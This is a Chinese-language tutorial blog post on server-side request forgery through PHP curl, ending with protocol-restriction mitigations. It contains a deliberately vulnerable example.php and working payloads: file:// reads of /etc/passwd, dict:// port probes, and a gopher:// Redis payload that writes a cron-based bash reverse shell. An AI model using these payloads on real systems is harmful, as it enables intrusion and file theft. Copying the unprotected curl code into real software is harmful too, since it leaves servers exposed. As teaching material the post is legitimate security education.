 ```yaml
---
layout: post

title: "php curl ssrf攻击"
date: 2017-04-12 22:44:01 +0800

categories: php
tags: [php, ssrf, curl, 网络安全]
---
```


## 什么是 SSRF  [^1]
>SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
>一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

三个使用`curl`进行`ssrf`的示例 [^2]
```bash
# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

漏洞代码 **example.php**（ 未做任何SSRF防御 ）
```php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
```

### file

执行 `http://localhost/example.php?url=file:///etc/passwd`, 结果如下,打印文件内容

![passwd info]({{ site.url }}/assets/images/201704/12-01.png)

### dict

执行 `http://localhost/example.php?url=dict://127.0.0.1:22`, 结果如下, 现实端口信息

![dict info]({{ site.url }}/assets/images/201704/12-02.png)

### gopher

>Gopher是一个互联网上使用的分布型的文件搜集获取网络协议。 [^3]

`redis反弹shell`代码如下:
>gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a

转译后的 **攻击脚本**
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$56



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1





*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit
```
执行后, 在redis中查看
```bash
127.0.0.1:6379> key *
(error) ERR unknown command 'key'
127.0.0.1:6379> keys *
1) "msg"
2) "numbers"
3) "1"
127.0.0.1:6379> get 1
"\r\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n"
127.0.0.1:6379>
```
使用 `nc` 监听查看 2333端口反馈信息 [^4]
```bash
$ nc -lvv 2333                                                            1 ↵
Listening on [0.0.0.0] (family 0, port 2333)
```

使用说明:
>gopher协议使用方法：gopher://ip:port/_payload

**gopher转换规则** 如下：
- 如果`第一个字符`是 **>** 或者 **<** 那么丢弃该行字符串，表示请求和返回的时间。
- 如果`前3个字符`是+OK 那么`丢弃`该行字符串，表示返回的字符串。
- 将`\r`字符串替换成`%0d%0a`
- 空白行替换为%0a


## curl安全

1. 限制只支持HTTPS、HTTP协议

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);`

    则 **file**,**dict**,**gopher** 等其他协议将被过滤, 可以阻止一些ssrf.

1. 禁止30x跳转 (默认关闭)

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_FOLLOWLOCATION, False);`


>原文: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)

---
更多阅读
- [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
- [ssrf proxy](https://bcoles.github.io/ssrf_proxy/)
- [Server Side Request Forgery (SSRF)](http://niiconsulting.com/checkmate/2015/04/server-side-request-forgery-ssrf/)
- [What is the Server Side Request Forgery Vulnerability & How to Prevent It?](https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/)
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)

---
索引

[^1]: [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
[^2]: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)
[^3]: [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
[^4]: [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)
